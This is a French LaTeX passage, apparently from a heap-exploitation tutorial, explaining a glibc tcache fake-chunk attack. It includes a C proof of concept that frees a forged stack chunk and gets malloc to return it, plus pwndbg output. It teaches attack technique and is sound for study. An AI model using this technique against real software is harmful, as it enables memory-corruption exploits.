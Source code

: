 \paragraph{Fonctionnement de l'attaque :}
L'attaquant prépare d'abord un faux chunk en définissant simplement son champ \texttt{size} pour qu'il corresponde à la catégorie visée dans le Tcache (généralement $\leq$ \texttt{0x410}). L'adresse du faux chunk doit être correctement alignée sur 16 octets. Ensuite, si le programme possède une vulnérabilité permettant de manipuler un pointeur qui sera soumis à \texttt{free()}, l'attaquant remplace ce pointeur par l'adresse de la zone de données du faux chunk. Lorsque \texttt{free()} est appelé, le faux chunk est inséré dans le Tcache, prêt à être récupéré via un appel \texttt{malloc()}.

\paragraph{Démonstration par le code :}

\begin{verbatim}
#include <stdio.h>
#include <stdlib.h>
#include <assert.h>

int main() {
    // 1. Initialisation de malloc
    malloc(1);

    // 2. Zone mémoire contrôlable par l'attaquant (ex: sur la pile)
    unsigned long long fake_chunks[10] __attribute__((aligned(0x10)));
    unsigned long long *a; // Pointeur qui sera manipulé

    // 3. Forger l'en-tête du faux chunk avec une taille valide (0x40)
    fake_chunks[1] = 0x40;

    // 4. Vulnérabilité : pointeur sur la zone utilisateur du fake chunk
    a = &fake_chunks[2];

    // 5. Libération du faux chunk (commande bins)
    free(a);

    // 6. Exploitation : l'allocateur nous retourne notre faux chunk sur la pile
    // (commande stack)
    void *b = malloc(0x30);

    assert((long)b == (long)&fake_chunks[2]);
    return 0;
}
\end{verbatim}

\begin{pwndbg}[bins]{text}
    tcachebins
    0x40 [  1]: 0x7fffffffd460 {fake_chunks+0x10} <- 0
\end{pwndbg}

